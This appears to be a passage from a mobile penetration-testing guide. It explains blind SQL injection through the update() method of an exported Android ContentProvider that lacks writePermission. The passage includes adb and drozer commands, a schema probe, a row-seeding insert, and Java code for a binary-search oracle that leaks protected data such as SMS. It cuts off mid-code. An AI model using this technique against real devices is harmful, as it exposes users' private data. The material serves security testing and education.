 
### writePermission omission + blind SQLi via update()

A common OEM mistake is to export a ContentProvider with a readPermission but omit writePermission. When writePermission is null, any app can call insert/update/delete if those methods are implemented. If update() concatenates the caller-controlled WHERE (selection) directly into an SQL statement, you can build a blind inference oracle and exfiltrate data from other tables in the same SQLite DB (even those normally protected by privileged read permissions like READ_SMS).

Key idea
- Exported provider, readPermission set, writePermission omitted
- update(uri, values, where, whereArgs) returns rows-affected; UNIQUE constraint errors also indicate a write attempt happened
- Attack controls WHERE to evaluate a Boolean expression over a subquery that reads secret data from co-located tables
- If the provider’s table is empty, insert() can be abused to seed a row so update() affects ≥1 row

Discovery workflow
- Enumerate exported providers and check perms:
  - drozer: run app.provider.info -a <pkg>
  - adb: aapt dump xmltree APK AndroidManifest.xml | grep -A5 "<provider"
- Look for providers with readPermission set but writePermission missing
- Confirm update() is implemented and selection is injectable (projection/selection/sortOrder often are; update() selection is commonly overlooked)

Co-location and schema probe (adb)
Use sqlite_master to verify the target table exists in the same DB file:

```bash
adb shell cmd content query \
  --uri content://service-number/service_number \
  --where '(SELECT COUNT(*) FROM (SELECT tbl_name FROM sqlite_master WHERE tbl_name = "sms"))>0'
```

Seeding a row (if needed)
If update() returns 0 because the provider’s table is empty, insert a dummy row first. Many OEM providers accept arbitrary ContentValues with no validation:

```bash
adb shell cmd content insert \
  --uri content://service-number/service_number \
  --bind hash_number:s:dummy
```

Blind Boolean oracle via update()
- Predicate template: 1=1 AND unicode(substr((<subquery>), <idx>, 1)) BETWEEN <lo> AND <hi>
- TRUE if update() > 0 or a UNIQUE constraint exception is thrown; FALSE otherwise
- Binary search [0..127] to recover each character

Minimal extraction loop (pseudocode)
```java
boolean probe(Uri uri, String where) {
  ContentValues cv = new ContentValues();
  cv.put("rowid", "123");
  try {
    return getContentResolver().update(uri, cv, where, null) > 0;
  } catch (Exception e) {
    return e.getMessage() != null && e.getMessage().contains("UNIQUE constraint failed");
  }
}

char leakChar(Uri uri, String subquery, int pos) {
  int lo = 0, win = 127;
  while (true) {
    String where = String.format(
      "1=1 AND unicode(substr((%s), %d, 1)) BETWEEN %d AND %d",
      subquery, pos, lo, lo + win);
    if (probe(uri, where)) {
```